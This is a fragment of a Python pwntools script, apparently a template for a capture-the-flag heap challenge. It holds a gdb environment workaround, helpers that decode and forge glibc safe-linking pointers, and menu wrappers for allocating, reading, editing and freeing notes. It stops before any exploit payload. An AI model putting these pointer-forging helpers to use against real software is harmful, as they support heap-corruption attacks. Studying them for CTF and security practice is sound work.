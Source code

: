 ```python
env = {}

# when there is no need for custom env, this should be set to None
# for some reason when we pass empty dictionary to `gdb.debug`, `pwntools` would
# still launch `gdbserver` with `--wrapper env -i` flag which result in the first
# thing to be debugged is `bash` then `env` and finally our target binary
#
# https://github.com/Gallopsled/pwntools/blob/96d98cf192cf1e9bc5d6bbeff5311e8961e58439/pwnlib/gdb.py#L347
# should have checked `len(env_args) > 0` instead of `env is not None`

if len(env) == 0:
    env = None

gdbscript = """
"""


# heap utils BEGIN
def reveal(ptr):
    mask = 0xFFF << 36
    while mask:
        ptr ^= (ptr & mask) >> 12
        mask >>= 12
    return ptr


def mangle(pos, ptr):
    return (pos >> 12) ^ ptr


def demangle(pos, ptr):
    return (pos >> 12) ^ ptr


# heap utils END


def create(idx: int, data: bytes):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Index? ", str(idx).encode())
    io.sendafter(b"Content? Content? ", data)


def read(idx: int) -> bytes:
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"Index? ", str(idx).encode())
    return io.recv(0x30)


def update(idx: int, data: bytes):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"Index? ", str(idx).encode())
    io.sendafter(b"Content? ", data)


def delete(idx: int):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"Index? ", str(idx).encode())


io = start()

```